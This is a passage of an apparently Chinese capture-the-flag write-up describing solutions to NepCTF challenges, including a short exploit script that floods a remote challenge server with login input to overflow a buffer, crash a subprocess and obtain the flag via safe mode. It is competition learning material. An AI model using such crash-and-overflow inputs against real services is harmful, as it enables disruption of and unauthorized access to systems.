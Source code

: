         if 'CTF' in response2.text:
            break
    
        #sleep(0.1)  # 等待一段时间再继续下一次请求
    

![image](https://img2023.cnblogs.com/blog/3243444/202308/3243444-20230814182037641-1470284547.png)

0x08 HRP-CHAT-3
===============

![image](https://img2023.cnblogs.com/blog/3243444/202308/3243444-20230814182047341-1293689105.png)

遗憾离场。

![image](https://img2023.cnblogs.com/blog/3243444/202308/3243444-20230814182052952-1276397178.png)

根据源码得知，子程序崩溃后，进入安全模式可以拿到flag。

    from evilblade import *
    
    context(os='linux', arch='amd64')
    context(os='linux', arch='amd64', log_level='debug')
    
    rsetup('nepctf.1cepeak.cn',31526)
    ru(b'help')
    sl(b'Login\n')
    sla('6',b'Login\n'*0x1000)
    #然后随意输入数据d73-16f1-418d-a,乱点回车
    #子程序崩溃进入安全模式
    #Safe_Mode_Key
    ia()
    

一顿乱打（一定要连续输入回车，溢出info数组）让他崩溃,然后输入Safe\_Mode\_Key拿到flag。  
期待剩下三个flag的解法……到时候看看别人wp学习学习。  
![image](https://img2023.cnblogs.com/blog/3243444/202308/3243444-20230814182128206-2089244140.png)

0x09 HRP-CHAT-2
===============

抽中角色打败就行了，8.14复现的。  
当时人太紧张完全不知道下标是怎么回事。  
果然心态心态心态很重要啊……原来直接打败就行了。  
![image](https://img2023.cnblogs.com/blog/3243444/202308/3243444-20230814184928205-664466083.png)

0xFF 尾声
=======

最后再次感谢所有Nepnep联合战队成员为比赛做出的贡献！体验非常好！特别感谢HRP师傅对我在pwn方向的一些指导。希望大家一起进步！

NepCTF2024，再见！